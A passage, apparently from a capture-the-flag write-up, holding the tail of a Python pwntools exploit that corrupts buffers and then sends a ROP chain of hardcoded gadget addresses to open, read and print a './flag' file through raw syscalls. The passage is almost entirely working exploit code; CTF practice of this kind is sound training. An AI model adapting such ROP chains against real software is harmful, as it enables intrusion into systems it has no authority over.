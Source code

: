 ```python
        r.send('Y')
        run('a'*0x10+'\x08'+'\x10'*0x10)
        r.recvuntil('continue?')
        r.send('Y')
        run('a'*0x8+'\x00')
        r.recvuntil('continue?')
        r.send('Y')
        run('a'*0x10+'\x48')
        r.recvuntil('continue?')
        r.send('Y')
        
        tflag = leak + 0x138
        mv1 = 0x524300
        mv2 = 0x524310
        mas = 0x417427
        pd = 0x4047BA
        ps = 0x407578
        pdx = 0x40437F
        psp = 0x405831
        syscall = 0x52A725
        rop  = '\x00'*0x30
        rop += p64(pd) + p64(tflag)
        rop += p64(ps) + p64(0)
        rop += p64(pdx) + p64(0)
        rop += p64(mv2)
        rop += p64(syscall)
        rop += p64(pd) + p64(3)
        rop += p64(ps) + p64(0)
        rop += p64(mas)
        rop += p64(ps) + p64(0x5D9B00)
        rop += p64(pdx) + p64(0x30)
        rop += p64(syscall)
        rop += p64(pd) + p64(1)
        rop += p64(ps) + p64(0x5D9B00)
        rop += p64(pdx) + p64(0x30)
        rop += p64(mv1)
        rop += p64(syscall)
        rop += './flag\x00'
        run(rop)
        r.recvuntil('continue?')
        r.send('Y')
        run(py)
        r.send('\x20')
        r.interactive()
        p.send('N')
        r.interactive()
    except:
        r.close()
```

## Re
